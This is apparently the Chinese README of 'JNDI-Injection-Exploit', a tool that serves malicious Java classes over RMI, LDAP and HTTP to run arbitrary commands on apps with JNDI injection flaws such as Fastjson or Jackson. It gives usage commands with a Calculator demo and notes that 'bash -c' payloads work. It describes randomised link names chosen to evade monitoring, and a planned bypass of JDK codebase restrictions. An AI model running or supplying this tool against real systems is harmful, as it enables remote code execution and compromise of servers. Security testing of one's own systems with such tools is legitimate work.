 ## 介绍
-------

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

## 使用
-------

可执行程序为jar包，在命令行中运行以下命令：

$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar \[-C\] \[command\] \[-A\] \[address\]

其中:

*   **\-C** - 远程class文件中要执行的命令。
    
    （可选项 , 默认命令是mac下打开计算器，即"open /Applications/Calculator.app"）
    
*   **\-A** - 服务器地址，可以是IP地址或者域名。
    
    （可选项 , 默认地址是第一个网卡地址）
    

注意:

*   要确保 **1099**、**1389**、**8180**端口可用，不被其他程序占用。
    
    或者你也可以在run.ServerStart类26~28行更改默认端口。
    
*   命令会被作为参数传入**Runtime.getRuntime().exec()**，
    
    所以需要确保命令传入exec()方法可执行。
    
    **bash等可在shell直接执行的相关命令需要加双引号，比如说 java -jar JNDI.jar -C "bash -c ..."**
    

## 示例
-------

### ## 本地演示：

1.  启动 JNDI-Injection-Exploit：
    
    $ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open /Applications/Calculator.app" -A "127.0.0.1"
    
    截图： [![](https://github.com/welk1n/JNDI-Injection-Exploit/raw/master/screenshots/1.png)](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/1.png)
    
2.  我们需要把第一步中生成的 JNDI链接注入到存在漏洞的应用环境中，方便解释用如下代码模仿漏洞环境：
    
    public static void main(String\[\] args) throws Exception{
        InitialContext ctx \= new InitialContext();
        ctx.lookup("rmi://127.0.0.1/fgf4fp");
    }
    
    当上面代码运行后，应用便会执行相应命令，这里是弹出计算器，没截图，可以自己测一下。
    
    截图是工具的server端日志：
    
    [![](https://github.com/welk1n/JNDI-Injection-Exploit/raw/master/screenshots/2.png)](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/screenshots/2.png)
    

## 安装
-------

下面两种方法都可以得到Jar包

1.  从 [Realease](https://github.com/welk1n/JNDI-Injection-Exploit/releases)直接下载最新的Jar。
    
2.  把源码下载到本地然后自行编译打包。（在Java1.7+ 、Java1.8+ 和 Maven 3.x+环境下测试可以）
    
    $ git clone https://github.com/welk1n/JNDI-Injection-Exploit.git
    
    $ cd JNDI-Injection-Exploit
    
    $ mvn clean package -DskipTests
    

## 工具实现
---------

1.  首先生成的链接后面codebaseClass是6位随机的，这个是因为不希望让工具生成的链接本身成为一种特征被监控或拦截。
2.  服务器地址实际就是codebase地址，相比于marshalsec中的JNDI server来说，这个工具把JNDI server和HTTP server绑定到一起，并自动启动HTTP server返回相应class，更自动化了。
3.  HTTP server基于jetty实现的，本质上是一个能下载文件的servlet，比较有意思的是我提前编译好class模板放到resource目录，然后servlet会读取class文件，使用ASM框架对读取的字节码进行修改，然后插入我们想要执行的命令，返回修改后的字节码。

## 待实现
--------

*   （已完成EL表达式绕过部分）在更高版本的JDK环境中trustURLCodebase变量为false，限制了远程类的加载，我会找时间把[JNDI-Injection-Bypass](https://github.com/welk1n/JNDI-Injection-Bypass)这个项目的东西融入到本项目中，生成能绕过JDK限制JNDI链接。
*   … ...